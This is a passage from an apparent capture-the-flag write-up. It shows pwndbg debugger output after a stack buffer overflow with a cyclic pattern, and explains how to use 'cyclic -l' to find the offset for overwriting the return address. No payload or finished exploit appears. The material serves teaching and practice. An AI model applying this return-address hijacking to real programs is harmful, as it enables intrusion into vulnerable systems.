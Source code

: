 ```python
*R10  0x3fe52e ◂— 0x6474730064616572 /* 'read' */
*R11  0x246
*R12  0x401090 (_start) ◂— endbr64 
*R13  0x7fffffffddc0 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x6161616161616163 ('caaaaaaa')
*RSP  0x7fffffffdcd8 ◂— 'daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
*RIP  0x401203 (main+141) ◂— ret 
─────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────────────
 ► 0x401203 <main+141>    ret    <0x6161616161616164>










───────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdcd8 ◂— 'daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
01:0008│     0x7fffffffdce0 ◂— 'eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
02:0010│     0x7fffffffdce8 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
03:0018│     0x7fffffffdcf0 ◂— 'gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
04:0020│     0x7fffffffdcf8 ◂— 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
05:0028│     0x7fffffffdd00 ◂— 'iaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
06:0030│     0x7fffffffdd08 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaa\n'
07:0038│     0x7fffffffdd10 ◂— 'kaaaaaaalaaaaaaamaaa\n'
─────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────
 ► 0         0x401203 main+141
   1 0x6161616161616164
   2 0x6161616161616165
   3 0x6161616161616166
   4 0x6161616161616167
   5 0x6161616161616168
   6 0x6161616161616169
   7 0x616161616161616a
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg>
```

If look properly at `DISASM / x86-64 / set emulate on` terminal, output `0x401203 <main+141>    ret    <0x6161616161616164>` can be seen. This means that the program trying to return to address `0x6161616161616164` which if we decode the hex it will be `aaaaaaad`. Using the command `cyclic -l [pattern]`, we just use the value `0x6161616161616164` to find out at which offset this pattern starts so we can append it with out target return address
